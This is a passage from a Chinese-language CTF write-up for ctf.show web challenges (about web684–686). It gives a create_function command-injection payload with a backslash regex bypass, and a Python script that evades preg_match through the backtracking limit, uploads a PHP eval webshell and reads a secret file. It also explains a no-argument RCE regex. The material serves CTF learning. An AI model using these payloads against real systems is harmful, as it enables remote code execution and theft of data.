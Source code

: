 可控参数：action和arg

可以利用create_funtion函数来进行命令注入

而且需要绕过正则，这个正则匹配大小写字母和短横线

利用`\`来绕过

payload

```php
action=\create_function&arg=echo 1;}system("ls /");//
```

##  web685

最大回溯次数绕过preg_match,然后先写马到文件中，然后再执行命令

```python
import requests
url="http://1f5c9bc4-d5bf-4045-ab2f-dd6a11147351.challenge.ctf.show/"
files={
	'file':'<?php eval($_POST[1]);?>'+'b'*1000000
}
r=requests.post(url,files=files)
for i in range(0,10):
	u=url+'data/{0}.php'.format(i)
	r=requests.post(u,data={'1':'system("cat /secret_you_never_know;echo z3eyond");'})
	if 'z3eyond' in r.text:
		print(r.text)

```

##  web686

考点：无参数构造RCE

标志点：

```php
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
} else {
    show_source(__FILE__);
}
```

这个正则表达式就是检查了我们通过GET方式传入的exp参数的值，如果传进去的值是传进去的值是一个字符串接一个()，那么这个字符串就会被替换为空。如果替换后的字符串只剩下 ; ,那么我们传进去的 exp 就会被 eval 执行。比如我们传入一个 phpinfo();，那么就会执行phpinfo()

![image-20220701104404548](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220701104404548.png)



所以就需要构造一个无参数函数来实现RCE

直接看这个文章：https://blog.csdn.net/weixin_46330722/article/details/110840156
